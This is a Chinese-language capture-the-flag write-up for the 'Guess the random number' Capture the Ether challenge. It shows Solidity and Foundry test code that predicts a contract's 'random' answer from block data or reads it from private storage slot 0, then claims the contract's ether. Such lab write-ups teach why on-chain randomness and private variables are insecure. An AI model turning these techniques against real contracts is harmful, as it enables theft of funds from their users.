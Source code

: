 # Guess the random number

## 题目描述

[原题链接](https://capturetheether.com/challenges/lotteries/guess-the-random-number/)

原题目要求 GuessTheRandomNumberChallenge 合约里面的余额为 0。而调用 guess 并输入答案，如果答案等于 answer 即可转移 2 ether 出去。

## 运行

**安装 Foundry**

根据[Foundry 官方文档](https://getfoundry.sh/)配置好运行环境。

**运行测试**

```sh
$ cd WTF-CTF

$ forge test -C src/Capture_the_Ether/Lotteries/Guess_the_random_number -vvv
```

## 功能简述

在 GuessTheRandomNumberChallenge 合约中，设置了一个 secret 变量 answer，并在部署时使用 blockhash，block.timestamp
等初始化：
```sol
contract GuessTheRandomNumberChallenge {
    uint8 answer;

    constructor() payable {
        require(msg.value == 1 ether);
        answer = uint8(uint(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))));
    }
    ...
}
```
因此我们有两个思路来完成挑战。

**思路 1**

既然部署时的 block.number, block.timestamp 是可以拿到的，我们可以记录这些值，然后计算出 answer，这就是 testGuessTheRandomNumber1 的解决思路：
```sol
        // Suppose several blocks have passed
        vm.roll(deployBlockNumber+10);

        uint8 answer = uint8(uint(keccak256(abi.encodePacked(blockhash(deployBlockNumber - 1), deployTime))));
        emit log_named_uint("answer", answer);

        vm.startPrank(hacker);
        guessTheRandomNumberChallenge.guess{value: 1 ether}(answer);
        vm.stopPrank();
```

**思路 2**

answer 虽然是私有变量，但是我们可以通过 GuessTheRandomNumberChallenge 本地的 storage 布局以及 json-rpc 里面的 [eth_getStorageAt](https://ethereum.org/en/developers/docs/apis/json-rpc/#eth_getstorageat) 得到答案：

```sh
forge inspect ./src/Capture_the_Ether/Lotteries/Guess_the_random_number/GuessTheRandomNumberChallenge.sol:GuessTheRandomNumberChallenge storage --pretty
| Name   | Type  | Slot | Offset | Bytes | Contract                                                                                                                |
| ------ | ----- | ---- | ------ | ----- | ----------------------------------------------------------------------------------------------------------------------- |
| answer | uint8 | 0    | 0      | 1     | src/Capture_the_Ether/Lotteries/Guess_the_random_number/GuessTheRandomNumberChallenge.sol:GuessTheRandomNumberChallenge |
```

可以看出 slot 0 就存储了 answer。在本地测试中，我们使用 foundry 的 cheatcode: `vm.load()` 来代替 `eth_getStorageAt`，这是 testGuessTheRandomNumber2 的思路：

```sol
        // 获取 slot 0 里面的值，这里就是 answer。
        uint answer = uint(vm.load(address(guessTheRandomNumberChallenge), bytes32(uint(0))));

        emit log_named_uint("answer", answer);

        vm.startPrank(hacker);
        guessTheRandomNumberChallenge.guess{value: 1 ether}(uint8(answer));
        vm.stopPrank();
```
